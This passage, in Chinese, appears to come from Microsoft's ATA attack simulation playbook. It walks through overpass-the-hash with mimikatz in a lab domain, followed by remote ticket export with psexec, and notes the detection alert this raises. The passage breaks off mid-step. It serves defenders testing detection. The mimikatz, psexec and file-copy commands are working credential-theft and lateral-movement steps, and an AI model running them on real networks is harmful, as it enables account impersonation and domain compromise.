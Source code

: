使用超传递哈希技术，可以获取 NTLM 哈希，并使用它通过 Kerberos\Active Directory 获取票证授予票证 (TGT)。  借助 TGT，可以仿冒成 Ron**HD，并访问 RonHD 有权访问的任何域资源。  

从之前搜集的 victim-pc.txt（通过“操作：转储受害者 PC 中的凭据”）中复制 *RonHD* 的 NTLM 哈希。 接下来，转到*受害者 PC*，访问 *mimikatz* 在文件系统上的存储位置，然后执行以下命令：

    Mimikatz.exe “privilege::debug” “sekurlsa::pth /user:RonHD /ntlm:[ntlm hash] /domain:contoso.local” “exit”

请务必使用从 victim-pc.txt 中粘贴的 NTLM 值替换 *[ntlm hash]*。

此命令的结果示例如下图所示：

![mimikatz 2](./media/ata-attack-simulation-playbook/ata-attack-simulation-playbook-fig21.png)

此时，新的命令提示符会话会打开。这个新的命令提示符将 *RonHD* 的凭据插入了其中。 若要验证能否读取*管理员 PC* 的 C$ 内容（*JeffV* 本不能执行的操作），请在新的命令行会话中执行以下命令：

    dir \\admin-pc\c$
   
此命令的结果示例如下图所示：

![Dir](./media/ata-attack-simulation-playbook/ata-attack-simulation-playbook-fig22.png)

此命令的结果证明，此时你已有权访问*管理员 PC* 的 C 驱动器。 现在，这就验证了已打开的新命令提示符已插入 *RonHD* 票证，并且你没有错误地将 *JeffV* 配置为拥有读取权限。

接下来，将在超传递哈希命令提示符处检查票证。 在执行超传递哈希攻击时打开的新命令提示符处，执行以下命令：

    klist

此命令的结果示例如下图所示：

![klist](./media/ata-attack-simulation-playbook/ata-attack-simulation-playbook-fig23.png)

可以发现，此时你正在这个命令提示符处模拟 *RonHD*，这就验证了你已使用他的合法凭据获取了他自己的*管理员 PC* 的访问权限。

此时，你可能会发现 Microsoft ATA 发出了关于异常协议实现的警报，如下图所示。 这是因为超传递哈希使用 NTLM，所以 RC4 也是。 从防御者的角度来讲，你知道的是在*受害者 PC* 上，RonHD 的帐户已成功对域控制器进行了身份验证。  然后，就可以开始调查了。

![异常协议](./media/ata-attack-simulation-playbook/ata-attack-simulation-playbook-fig24.png) 

<a id="domain-escalation" class="xliff"></a>

### 域权限提升

攻击者现已有权访问*管理员 PC*，在之前的侦测过程中，已发现此计算机是入侵高权限帐户 *NuckC* 的良好攻击途径。 攻击者现在想要移动到*管理员 PC*，提升他们的域权限。

为此，攻击者将展开[传递哈希](https://www.microsoft.com/security/sir/strategy/default.aspx#!pass_the_hash_defenses)攻击来搜集凭据，这样就可以移动到*管理员 PC*。   

在新的命令提示符处，在运行 *RonHD* 上下文的情况下，从相应的库转到 mimikatz 在文件系统中的位置，然后运行以下命令：

    xcopy mimikatz \\admin-pc\c$\temp

接下来，运行以下命令，远程执行 mimiKatz，以导出*管理员 PC* 中的所有 Kerberos 票证：

    psexec.exe \\admin-pc -accepteula cmd /c (cd c:\temp ^& mimikatz.exe “privilege::debug” “sekurlsa::tickets /export” ^& “exit”)

运行以下命令，将这些票证重新复制到*受害者 PC*：
